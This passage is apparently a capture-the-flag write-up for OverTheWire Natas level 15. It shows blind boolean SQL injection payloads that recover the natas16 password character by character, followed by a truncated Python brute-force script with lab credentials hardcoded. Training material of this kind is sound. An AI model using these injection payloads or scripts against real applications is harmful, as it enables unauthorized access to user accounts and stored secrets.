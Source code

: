 ```php
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?> 
```

Try fill `natas16` into username input, we get the response `This user exists.` So we use sql injection to find password of natas16.
The payload look like that: SELECT * from users where username="`natas16" and password="abcxyz`".

If `mysql_num_rows($res) > 0` -> correct password -> `This user exists.`, else wrong password -> `This user doesn't exist.`

We need inject sql to find char by char password, so we use `substring()` in sql.


Step 1: Brute-force length password

```
username=natas16%22+and+length(password)+=+%22§6§ -> Check response `This user exists.` -> Length of password is 32.
```

Step 2: Brute-force char by char password

```
username=natas16%22+and+substring(password,§1§,1)+=+%22§a§ -> Check response `This user exists.` -> waiheacj63wnnibroheqi3p9t0m5nhmh
```

??? But SQL case-insentive, char by char is upper or lower???

Step 3: Brute-force binary char:

```
username=natas16%22+and+substring(password,§1§,1)+LIKE+BINARY+%22§w§ -> Check response `This user exists.` -> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

This following python code `natas15.py`:

```python
#!/usr/bin/python3
import requests
from string import ascii_lowercase, digits

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# brute-force length
for i in range(100):
    uri = '{}?username=natas16%22+and+length(password)+=+%22{}'.format(url, i)
    r = requests.get(uri, auth=(auth_username,auth_password))
    if 'This user exists.' in r.text:
```